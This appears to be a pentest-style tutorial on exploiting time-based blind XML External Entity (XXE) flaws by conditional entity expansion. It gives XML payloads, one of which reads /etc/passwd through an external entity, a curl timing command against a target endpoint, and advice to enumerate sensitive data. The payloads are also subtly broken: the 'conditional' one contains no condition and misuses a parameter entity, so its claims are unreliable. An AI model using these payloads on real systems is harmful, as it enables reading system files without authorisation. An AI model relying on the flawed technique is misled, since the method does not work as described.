

# Conditional Entity Expansion

## Context

The objective of this article is to demonstrate how to exploit a time-based blind XML External Entity (XXE) through conditional entity expansion. This technique allows attackers to infer application states or underlying data by leveraging time differences in XML parsing. This article assumes that you have familiarity with XML structure and entity declaration, HTTP request and response mechanics, general XXE exploitation, and the fundamentals of Time-based Blind XXE.

## Theory

### Conditional Entity Expansion in XML Parsers

Conditional entity expansion is a technique that manipulates XML parsing time by expanding entities based on certain conditions. Attackers carefully craft XML payloads such that the depth or recursion of entity expansion is triggered by external data. If an application is vulnerable to XXE, this method can leak information through measurable delays experienced during XML parsing.

### Timing-Based Information Leakage

The core principle of timing-based information leakage lies in the delay caused by complex entity expansion. By exploiting these variations in parsing time, attackers can infer true/false conditions within the application. The attack sequence typically involves submitting an XML with conditional entity expansion and observing the response time to deduce the application's state or data.



### Practical Use Cases for Conditional Expansion

This technique has practical applications in testing for the presence of files, specific values within files, or branches of application logic. By iteratively adjusting entity definitions, attackers can effectively brute-force or enumerate sensitive data using timing differences as their guide.

## Practice

### Time-based Blind XXE via Conditional Entity Expansion

- Begin by crafting a baseline XML payload with a simple entity expansion to establish normal response times.
  
```html
<!DOCTYPE root [
  <!ENTITY a "A">
  <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
]>
<root>&b;</root>
```

This minimal expansion is expected to parse quickly and provides a reference timing for further analysis.

- Next, craft a conditional entity expansion payload that triggers deep recursion if a specific condition is met, such as the presence of a certain string in a file.

```html
<!DOCTYPE root [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % test "<!ENTITY &#x25; cond SYSTEM 'file:///dev/null'>">
  %file;
  %test;
]>
<root>&cond;</root>
```

Adjust the `SYSTEM` entity to target a file or resource pertinent to your condition. This example setup checks for the UNIX password file.

- Send both payloads to the target endpoint and measure their response times. This comparison will help detect whether conditional expansion has occurred.

```bash
curl -w '%{time_total}\n' -X POST -d @payload.xml http://target/xml-endpoint
```

- Finally, repeat the process with variations in the payload to brute-force or enumerate sensitive data based on timing differences.

By systematically testing various conditions and measuring the response times, you can infer specific information regarding the application's data or logic.

## Tools

- **curl**
- **Burp Suite**

With these tools, you can structure and send HTTP requests, observe response times, and manipulate payloads efficiently. By mastering these techniques and tools, you will be able to execute conditional entity expansion effectively in a vulnerable environment.